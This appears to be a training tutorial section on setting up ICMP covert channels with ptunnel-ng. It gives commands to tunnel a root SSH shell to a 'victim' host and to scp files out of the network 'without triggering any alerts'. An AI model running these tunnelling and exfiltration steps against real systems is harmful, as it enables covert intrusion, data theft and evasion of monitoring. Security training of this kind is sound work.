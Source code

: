
---
#### 4.3.3.1 Setting up ICMP Covert Channels by using ptunnel-ng
Installing ptunnel-ng  
*This has to be done on both the client and server machines.*

- The install requires a few components to be installed if they are not already.
  - `sudo apt-get install automake`
  - `sudo apt-get install gcc`
  - Once that is done, clone the repo: `git clone https://github.com/lnslbrty/ptunnel-ng.git`
  - Change into the directory: `cd ptunnel-ng`
  - Now we need to create the binary: `sudo ./autogen.sh`
  - We can then use ptunnel-ng by invoking it from the directory where we compiled the binary, or install it to make it globally usable.
  - `sudo make install`
- Starting the server / victim
- In this example we will just have the victim running the server code so we can gain access to a shell on the victim over ICMP.
- There are other ways to set the ICMP tunnel up so the victim can relay traffic for us, but we will just keep it simple.
  - `sudo ptunnel-ng`

![image](https://github.com/ruppertaj/WOBC/assets/93789685/9c3220e7-5faf-4398-82c9-b38eb444e35e)

- Starting the client
- Starting the client is a two step process, you will need two command shells.

SHELL 1: Forwarder
- The first command shell will setup a forwarder on your local machine. This forwarder can be used just like most ssh forwarders.
  - `syntax: sudo ptunnel-ng -p[Server-IP/NAME] -l[local listening port number]`
- The -p is the Fully Qualified Domain Name (FQDN) or IP address of the machine running the server.
- The -l is the local port we wish to use to access the tunnel.
  - `sudo ptunnel-ng -p 159.65.160.169 -l 4444`
- In this case we are setting up our port 4444 to forward to 159.65.160.169.

![image](https://github.com/ruppertaj/WOBC/assets/93789685/dcc3d5d9-5c88-484f-aeaf-34c03a678890)

SHELL 2: Interactive
- The second shell is where we will use our tunnel and connect to the victim.
  - `ssh root@localhost -p 4444`

![image](https://github.com/ruppertaj/WOBC/assets/93789685/4ca71479-d1b6-47e9-b254-ab5fd0a27df8)

- From here we have an SSH session that we can use.
- However, we can also use the ICMP tunnel to SCP files from the victim.
  - `scp -P 4444 root@localhost:/root/test.txt`

![image](https://github.com/ruppertaj/WOBC/assets/93789685/2bca0124-ce61-44ed-8acb-3b93389a5b86)

- This allows us to exfil data we have stored on the victims machine out of the network without triggering any alerts on files leaving the network.
